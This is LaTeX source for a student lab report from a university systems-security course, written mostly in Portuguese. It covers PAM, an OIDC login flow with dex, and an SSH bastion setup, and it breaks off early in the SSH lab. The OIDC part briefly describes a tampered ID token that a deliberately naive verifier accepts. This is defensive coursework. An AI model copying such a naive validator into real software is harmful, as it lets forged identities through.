%==============================================================================
%  Computer Systems Security (SSC), 2026-27 -- Universidade do Minho
%  Lab report 2: Block 2 -- Lab 3 (PAM) + Lab 4 (OIDC) + Lab 5 (SSH)
%  Build: pdflatex report2.tex (needs images/)
%==============================================================================
\documentclass[a4paper,11pt]{article}

\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[portuguese]{babel}
\usepackage{textcomp}
\usepackage{lmodern}
\usepackage{tgheros}
\usepackage{microtype}

\usepackage[margin=2.5cm,headheight=15pt,footskip=32pt]{geometry}

\usepackage[table]{xcolor}
\definecolor{sscnblue}{RGB}{15,42,79}
\definecolor{sscblue}{RGB}{31,92,156}
\definecolor{sscline}{RGB}{198,207,219}
\definecolor{sscbg}{RGB}{245,247,250}
\definecolor{sscmute}{RGB}{95,104,116}

\usepackage{graphicx}
\usepackage{array}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{float}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{tcolorbox}
\tcbuselibrary{breakable}
\usepackage{hyperref}
\usepackage{lastpage}
\emergencystretch=2em
\hypersetup{
  colorlinks=true,
  linkcolor=sscnblue,
  urlcolor=sscblue,
  citecolor=sscnblue,
  pdftitle={Lab report 2: Bloco 2 -- Labs 3, 4 e 5},
  pdfauthor={Hugo Soares a107293},
  pdfsubject={SSC --- PAM, OIDC, certificados SSH},
  pdfkeywords={PAM, NSS, OIDC, dex, SSH CA, AuthorizedPrincipalsFile, KRL, sshd},
  pdflang={pt}
}

\graphicspath{{images/}}

\setlength{\parindent}{0pt}
\setlength{\parskip}{5pt plus 1pt}
\setlist{topsep=3pt,itemsep=2pt,parsep=0pt,leftmargin=1.6em}
\setlist[itemize]{label=\textcolor{sscblue}{\textbullet}}
\setlist[enumerate]{label=\textcolor{sscnblue}{\arabic*.},ref=\arabic*}

\titleformat{\section}
  {\Large\bfseries\color{sscnblue}}{\thesection}{0.9em}{}
  [\vspace{3pt}{\color{sscline}\titlerule[0.7pt]}]
\titleformat{\subsection}
  {\large\bfseries\color{sscblue}}{\thesubsection}{0.9em}{}
\titleformat{\subsubsection}
  {\normalsize\bfseries\color{sscmute}}{\thesubsubsection}{0.9em}{}
\titlespacing*{\section}{0pt}{20pt}{10pt}
\titlespacing*{\subsection}{0pt}{15pt}{6pt}
\titlespacing*{\subsubsection}{0pt}{12pt}{4pt}

\setcounter{tocdepth}{2}
\renewcommand{\cftsecfont}{\bfseries\color{sscnblue}}
\renewcommand{\cftsecpagefont}{\bfseries\color{sscnblue}}
\renewcommand{\cftsubsecfont}{\small\color{sscblue}}
\renewcommand{\cftsubsecpagefont}{\small\color{sscblue}}
\renewcommand{\cftdotsep}{1.6}
\setlength{\cftbeforesecskip}{5pt}
\setlength{\cftbeforesubsecskip}{1pt}

\captionsetup{font=small,labelfont={bf,color=sscnblue},labelsep=quad}
\captionsetup[table]{position=top}
\captionsetup[figure]{position=bottom}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\footnotesize\color{sscmute}Lab report 2 --- Bloco 2: Labs 3, 4 e 5}
\fancyhead[R]{\footnotesize\color{sscmute}\textit{Computer Systems Security (SSC)}}
\fancyfoot[C]{\footnotesize\color{sscmute}\thepage\ / \pageref{LastPage}}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{{\color{sscline}\hrule width\headwidth height 0.4pt}}
\renewcommand{\footrulewidth}{0pt}

\newtcolorbox{callout}[2][]{%
  breakable, colback=sscbg, colframe=sscnblue, coltitle=white,
  fonttitle=\bfseries\small, title={#2},
  boxrule=0.6pt, arc=2pt, left=7pt, right=7pt, top=4pt, bottom=4pt,
  before skip=8pt, after skip=8pt, #1}

\newenvironment{answer}[1]{%
  \par\addvspace{7pt}\noindent
  \hangindent=2.4em\hangafter=1
  {\color{sscnblue}\bfseries #1\hspace{0.55em}}\ignorespaces}
  {\par\addvspace{5pt}}

\lstdefinestyle{ssc}{
  basicstyle=\ttfamily\small,
  keywordstyle=\color{sscblue}\bfseries,
  commentstyle=\color{sscmute}\itshape,
  stringstyle=\color{sscnblue},
  backgroundcolor=\color{sscbg},
  frame=single, framerule=0.4pt, rulecolor=\color{sscline},
  xleftmargin=1em, xrightmargin=1em,
  aboveskip=9pt, belowskip=9pt,
  columns=fullflexible, keepspaces=true, showstringspaces=false,
  breaklines=true, tabsize=2, upquote=true,
  literate={'}{{\textquotesingle}}1 {`}{{\textquotesingle}}1
}
\lstset{style=ssc}

\newcommand{\cmd}[1]{\textcolor{sscnblue}{\texttt{#1}}}
\newcommand{\file}[1]{\texttt{\detokenize{#1}}}

\title{Laborat\'orios 3, 4 e 5: Autentica\c{c}\~ao, Autoriza\c{c}\~ao e Identidade}
\author{Hugo Soares a107293}
\date{\today}

\begin{document}

%==============================================================================
\begin{titlepage}
\thispagestyle{empty}
\begin{center}
    \vspace*{1.0cm}
    {\large\color{sscmute}\MakeUppercase{Universidade do Minho}}\\[2pt]
    {\small\color{sscmute}Computer Systems Security (SSC) --- MCS, 2026--27}\\[8pt]
    {\color{sscline}\rule{0.8\textwidth}{0.8pt}}\\[2.2cm]

    {\LARGE\bfseries\color{sscnblue}Lab report 2\\[6pt]
     Bloco 2 --- Labs 3, 4 e 5}\\[0.7cm]
    {\large\color{sscblue}PAM e a cadeia de autentica\c{c}\~ao $\cdot$ identidade federada (OIDC)\\
     $\cdot$ certificados SSH, autoriza\c{c}\~ao, hardening e hijack do agente}\\[3.0cm]

    \vfill
\end{center}
\end{titlepage}
\setcounter{page}{2}

\tableofcontents
\newpage

%==============================================================================
\section{Laborat\'orio 3 --- PAM e a cadeia de autentica\c{c}\~ao}

\subsection{Prepara\c{c}\~ao (P1--P2)}

\begin{answer}{P1.}
Quatro tipos de m\'odulo: \cmd{auth} (provar identidade), \cmd{account} (a conta pode
entrar agora?), \cmd{password} (mudan\c{c}a e qualidade da credencial) e \cmd{session}
(preparar a sess\~ao). A ordem e os \cmd{control} flags definem a sem\^antica.
\end{answer}

\begin{answer}{P2.}
\file{/etc/pam.d/sudo} n\~ao tem regras \cmd{auth} pr\'oprias: traz tudo de
\cmd{common-auth} via \cmd{@include common-auth}. Por isso um erro no ficheiro
partilhado quebra v\'arios servi\c{c}os de uma vez --- foi o que aconteceu quando a
pilha passou a negar tudo.
\end{answer}

%==============================================================================
\section{Laborat\'orio 4 --- Identidade federada (OIDC)}

Stack em \file{/home/student/ssc-lab4} na VM (\cmd{docker compose up -d}: \cmd{dex} na
porta 5556, cliente na 3000), acess\'ivel via
\cmd{ssh -p 2222 -L 3000:localhost:3000 -L 5556:localhost:5556 student@localhost}.
Conta \cmd{student@ssc.local}, cliente \cmd{democlient}.

\subsection{Prepara\c{c}\~ao (P1--P3)}

\begin{answer}{P1.}
Corri o comando do guia na VM antes da sess\~ao. A Figura~\ref{fig:g04p1} \'e a captura
(imagem, n\~ao texto): prova que o IdP responde.
\end{answer}

\begin{figure}[H]
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=0.92\textwidth,
                   boxrule=0.5pt,arc=2pt,left=6pt,right=6pt,top=6pt,bottom=6pt]

\includegraphics[width=\linewidth]{G04Prep1.png}
\end{tcolorbox}
\caption{Lab 4, P1 --- discovery document do dex (issuer + endpoints).}
\label{fig:g04p1}
\end{figure}

\begin{lstlisting}
issuer:                 http://localhost:5556/dex
authorization_endpoint: http://localhost:5556/dex/auth
token_endpoint:         http://localhost:5556/dex/token
jwks_uri:               http://localhost:5556/dex/keys
\end{lstlisting}

\begin{answer}{P2.}
O ID token prova a um \emph{audience} espec\'ifico (o cliente) que um \emph{subject} se
autenticou no \emph{issuer} num dado momento --- autentica\c{c}\~ao. O access token s\'o
prova a um \emph{resource server} que o portador est\'a autorizado a aceder a um recurso
--- autoriza\c{c}\~ao.
\end{answer}

\begin{answer}{P3.}
Lido em \file{/home/student/ssc-lab4/dex-config.yaml} (\cmd{staticClients} $\rightarrow$
\cmd{democlient}); \'e o valor que a Parte D do Lab 4 tenta quebrar. A
Figura~\ref{fig:g04p3} \'e a captura.
\end{answer}

\begin{figure}[H]
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=0.80\textwidth,
                   boxrule=0.5pt,arc=2pt,left=6pt,right=6pt,top=6pt,bottom=6pt]

\includegraphics[width=\linewidth,height=0.52\textheight,keepaspectratio]{G04Prep3.png}
\end{tcolorbox}
\caption{Lab 4, P3 --- \cmd{dex-config.yaml}: cliente \cmd{democlient} e \cmd{redirectURIs}.}
\label{fig:g04p3}
\end{figure}

\begin{lstlisting}
    redirectURIs:
      - 'http://localhost:3000/callback'
\end{lstlisting}

\subsection{Exerc\'icio 1a --- fluxo anotado (front vs back channel)}

\begin{answer}{1a.}
Fluxo no browser (via \cmd{ssh -L 3000 -L 5556}): \cmd{/} $\rightarrow$ \cmd{/login}
$\rightarrow$ \cmd{/dex/auth?...} $\rightarrow$ login \cmd{student@ssc.local}
$\rightarrow$ \cmd{/callback?code\&state} $\rightarrow$ \cmd{/debug}. A
Figura~\ref{fig:g04ex1a} marca o que se v\^e no Network tab e o que n\~ao se v\^e: o POST
ao \cmd{token\_endpoint} n\~ao aparece, porque foi servidor-a-servidor.
\end{answer}

\begin{figure}[H]
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=0.98\textwidth,
                   boxrule=0.5pt,arc=2pt,left=6pt,right=6pt,top=6pt,bottom=6pt]

\includegraphics[width=\linewidth]{G04Ex1a.png}
\end{tcolorbox}
\caption{Lab 4, Ex.\ 1a --- authorization-code + PKCE: front channel (browser) vs back
channel (servidor-a-servidor). Passos 6--7 invis\'iveis no browser.}
\label{fig:g04ex1a}
\end{figure}

\begin{answer}{1a (cont.).}
\'E significativo que a troca code$\rightarrow$tokens seja back channel: o \cmd{code}
viaja no URL (front, vis\'ivel em hist\'orico e logs) mas sozinho n\~ao chega --- o redeem
exige \cmd{client\_secret} e \cmd{code\_verifier}, que nunca passam no browser. Prova:
\cmd{curl /login} mostra \cmd{code\_challenge S256} no pedido de autoriza\c{c}\~ao, e o
\cmd{/debug} diz ``fetched on the back channel'' sem nenhum POST ao \cmd{/dex/token} no
Network tab.
\end{answer}

\subsection{Exerc\'icio 5c --- valida\c{c}\~ao m\'inima do ID token}

\begin{answer}{5c.}
Antes de confiar: (1) assinatura --- buscar o JWKS ao \cmd{jwks\_uri}, escolher a chave
pelo \cmd{kid}, aceitar s\'o \cmd{RS256} (rejeitar \cmd{none}; nunca confiar no \cmd{alg}
do token); (2) \cmd{iss} igual ao issuer esperado; (3) \cmd{aud} igual a este cliente
(\cmd{azp} igual, se presente); (4) \cmd{exp} v\'alido, com \cmd{iat} e toler\^ancia de
rel\'ogio; (5) \cmd{nonce} igual ao enviado neste fluxo; (6) \cmd{state} conhecido
\emph{e} ligado ao browser que iniciou o fluxo. Prova: token adulterado (\cmd{sub} e
\cmd{email} trocados, assinatura intacta) d\'a \cmd{REJECTED: InvalidSignatureError} no
\cmd{verify.py} e \cmd{ACCEPTED} no \cmd{verify\_naive.py}.
\end{answer}

%==============================================================================
\section{Laborat\'orio 5 --- Certificados SSH, autoriza\c{c}\~ao, hardening e hijack do agente}

Tr\^es m\'aquinas: a VM (workstation, cliente \cmd{ssh}), e dois contentores na mesma rede
Docker --- \cmd{jump} (basti\~ao, publicado em \cmd{127.0.0.1:2023}) e \cmd{target} (sem
porta publicada, alcan\c{c}ado atrav\'es de \cmd{jump}). O \cmd{target} tem as contas
\cmd{ops} e \cmd{dev}; \cmd{sshd} corre como PID~1 em cada contentor, pelo que o reload
\'e \cmd{kill -HUP 1}, n\~ao \cmd{systemctl}.

\subsection{Prepara\c{c}\~ao (P1--P2)}

\begin{answer}{P1.}
Stack em \file{/home/student/ssc-lab5} com \cmd{jump} e \cmd{target} a correr, e a CA
criada \emph{antes} do \cmd{docker compose up} (a metade p\'ublica \'e montada nos dois
contentores). A Figura~\ref{fig:g05prep} 'e a prova de setup: os dois contentores a correr e as duas
chaves p'ublicas.
\end{answer}

\begin{figure}[H]
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=0.80\textwidth,
                   boxrule=0.5pt,arc=2pt,left=6pt,right=6pt,top=6pt,bottom=6pt]

\includegraphics[width=\linewidth]{G05Prep1.png}
\end{tcolorbox}
\caption{Lab 5, P1 --- \cmd{docker compose ps} (\cmd{jump} e \cmd{target} \emph{Up}) e as
duas chaves p\'ublicas \cmd{id\_dev.pub} e \cmd{id\_ops.pub}.}
\label{fig:g05prep}
\end{figure}

\begin{answer}{P2.}
Duas coisas ficam por resolver com chaves p\'ublicas cruas: (i) \emph{distribui\c{c}\~ao
e revoga\c{c}\~ao} --- cada host precisa da chave de cada utilizador em
\cmd{authorized\_keys} ($N\times M$ c\'opias) e revogar obriga a editar todos os hosts;
(ii) \emph{autenticidade do host} --- na primeira liga\c{c}\~ao aceita-se um fingerprint
que n\~ao se pode verificar, o que \'e exactamente uma janela de man-in-the-middle e
tamb\'em n\~ao escala.
\end{answer}



\subsection{Parte A --- autentica\c{c}\~ao por chave e os seus limites (Exerc\'icio 1)}

A chave p\'ublica \cmd{id\_dev} foi instalada \emph{out of band} em \cmd{target} e em
\cmd{jump} (o README da stack), e a liga\c{c}\~ao faz-se atrav\'es do basti\~ao:

\begin{lstlisting}
ssh -J jump -i /home/student/.ssh/id_dev dev@target
1a097db4c2a2:~$ whoami; id; pwd; hostname
dev
uid=1001(dev) gid=1001(dev) groups=1001(dev)
/home/dev
1a097db4c2a2
\end{lstlisting}

